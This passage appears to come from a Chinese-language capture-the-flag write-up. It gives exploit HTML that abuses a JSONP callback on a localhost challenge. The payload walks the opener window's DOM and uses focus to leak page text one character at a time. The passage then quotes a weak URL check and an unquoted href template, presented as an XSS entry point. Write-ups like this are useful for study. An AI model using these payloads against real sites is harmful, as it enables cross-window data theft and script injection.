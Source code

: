 ```html
    </script>
</body>
```

`one.html` :
```html
<script>
    attack = open(`/attack.html`);
</script>
```

`attack.html` :
```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));
    const main = async () => {
        await sleep(1000);
        const start = 0;
        for (var i = start; i <= start+36+1; i++) {
            // I'm explainig this payload below
            PAYLOAD = `opener[opener.opener.document.body.firstElementChild.nextElementSibling.firstElementChild.firstElementChild.firstElementChild.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.firstElementChild.firstElementChild.text[${i}]].focus`;
            // change one.html page's location to the vulnerable page that executes callback
            opener.location.replace(`http://localhost:12345/post/?id=fake?callback=${PAYLOAD}%23%00`);
            // check the next character every 1.5 secs so that the page have 1.5 sec to load.
            await sleep(1500);
        }
    }

    main();
</script>
```

open顺序：
start -> iframes -> one -> attack

## Delete Cookie And XSS

第二种方法算是学到了。

在 todo 中有一个 url 处理：
```js
let isURL = false;
try {
	new URL(text); // errors if not valid URL
	isURL = !text.toLowerCase().trim().startsWith("javascript:"); // no
} catch {}
```

其对应的渲染如下：
```js
  <%_ user.todos.forEach(todo => { _%>
	<%_ if (todo.isURL) { _%>
	  <li class="has-text-left"><a target="_blank" href=<%= todo.text %>><%= todo.text %></a></li>
	<%_ } else { _%>
	<li class="has-text-left"><%= todo.text %></li>
	<%_ } _%>
  <%_ }); _%>
```
